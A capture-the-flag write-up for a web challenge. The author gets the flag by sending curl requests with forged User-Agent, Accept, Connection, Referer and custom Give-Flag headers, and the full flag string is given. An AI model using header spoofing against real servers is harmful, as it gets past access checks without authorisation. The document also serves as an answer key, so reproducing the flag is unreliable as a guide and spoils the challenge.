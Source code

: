 >To get the flag, you must be a member of the secret group! Author: NoobMaster
>
>[http://challs.n00bzunit3d.xyz:31401/](http://challs.n00bzunit3d.xyz:31401/)
----------------
Visiting the url, we see the following in plain text:
```
Not an agent of the **n00bz-4dm1n** secure browser!
```
My first thought is that it is asking for a change to the http header User-Agent. Doing so using curl:
```sh
curl -H "User-Agent: n00bz-4dm1n" http://challs.n00bzunit3d.xyz:31401/                                                   
<p>Does not Accept <b>fl4g</b></p>
```
It looks to be another edit to http headers:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" http://challs.n00bzunit3d.xyz:31401/
<p>Connection not <b>s3cur3</b></p>
```
Again keeping with the trend, I add another header line for connection:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" http://challs.n00bzunit3d.xyz:31401/
<p>Not refered by <b>s3cr3t.n00bz-4dm1n.xyz</b></p>
```
Time to add referer tag:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" -H "Referer: s3cr3t.n00bz-4dm1n.xyz" http://challs.n00bzunit3d.xyz:31401/ 
<b>Give-Flag</b> is not <b>7ru3</b>
```
Give-Flag is not really a common http header, but based on what has been going on, it's the first thing we should try.
```sh
$ curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" -H "Referer: s3cr3t.n00bz-4dm1n.xyz" -H "Give-Flag: 7ru3" http://challs.n00bzunit3d.xyz:31401/
n00bz{y0u_4r3_n0w_4_v4l1d_m3mb3r_0f_th3_s3cr3t_gr0up!}
```
Finally we get the flag.
`n00bz{y0u_4r3_n0w_4_v4l1d_m3mb3r_0f_th3_s3cr3t_gr0up!}`
